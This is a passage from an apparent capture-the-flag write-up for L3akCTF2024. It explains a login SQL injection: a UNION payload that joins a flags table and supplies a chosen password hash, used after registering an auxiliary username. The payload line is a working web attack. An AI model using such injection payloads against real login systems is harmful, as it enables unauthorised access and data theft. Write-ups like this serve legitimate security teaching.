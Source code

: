 ```sql
# Login
## Target query
SELECT username,email,password FROM users WHERE username ="ittt" UNION 
  SELECT username,flag,"9990775155c3518a0d7917f7780b24aa" FROM USERS 
  INNER JOIN flags on USERNAME LIKE "ittt%"
## Payload
username=ittt"+union+select+username,flag,"9990775155c3518a0d7917f7780b24aa"+from+users+inner+join+flags+on+username+like+"ittt%"--&password=ttt
```
Register the auxiliary username. The user is stored as it is since it is a query statement and quotes are escaped:

<p align="center">
  <img src="/images/writeups/L3akCTF2024/2_3_register.png" width="70%"/>
</p>

Make the login with the username injection and retrieve the flag in the email field on the session:

<p align="center">